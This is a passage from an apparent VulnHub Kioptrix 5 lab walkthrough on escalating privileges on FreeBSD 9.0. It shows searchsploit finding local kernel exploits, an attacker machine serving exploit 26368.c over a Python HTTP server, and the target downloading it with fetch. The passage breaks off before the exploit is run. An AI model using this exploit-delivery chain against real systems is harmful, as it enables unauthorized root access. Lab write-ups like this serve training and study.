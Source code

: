 ### Vulnerability Identification
Using searchsploit to find appropriate vulnerability in exploit-db database.

```bash
root@kali:~/vulnhub/kioptrix_5# searchsploit freebsd 9.0
-------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                      |  Path
                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------- ----------------------------------------
FreeBSD 9.0 - Intel SYSRET Kernel Privilege Escalation              | exploits/freebsd/local/28718.c
FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation        | exploits/freebsd/local/26368.c
-------------------------------------------------------------------- ----------------------------------------
```

Identifying exploit’s patch and copying it to the clipboard and working directory.

```bash
root@kali:~/vulnhub/kioptrix_5# searchsploit -p 26368
  Exploit: FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/26368
     Path: /usr/share/exploitdb/exploits/freebsd/local/26368.c
File Type: C source, ASCII text, with CRLF line terminators

Copied EDB-ID #26368's path to the clipboard.
root@kali:~/vulnhub/kioptrix_5# cp /usr/share/exploitdb/exploits/freebsd/local/26368.c .
```

### Exploitation

Next, starting Python Simple HTTP Server to serve the exploit.

```bash
root@kali:~/vulnhub/kioptrix_5# python -m SimpleHTTPServer 
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.20.148 - - [05/Sep/2019 21:53:12] "GET /26368.c HTTP/1.1" 200 –
Using fetch command to download the exploit. (Unlike most Linux system, FreeBSD uses fetch not wget)
$ fetch http://192.168.20.144:8000/26368.c
26368.c                                               2213  B   14 MBps
```

Using **fetch** command to download the exploit. (Unlike most Linux system,
FreeBSD uses fetch not wget)

```bash
$ fetch http://192.168.20.144:8000/26368.c
26368.c                                               2213  B   14 MBps
```

Running exploit and gaining administrative privileges:
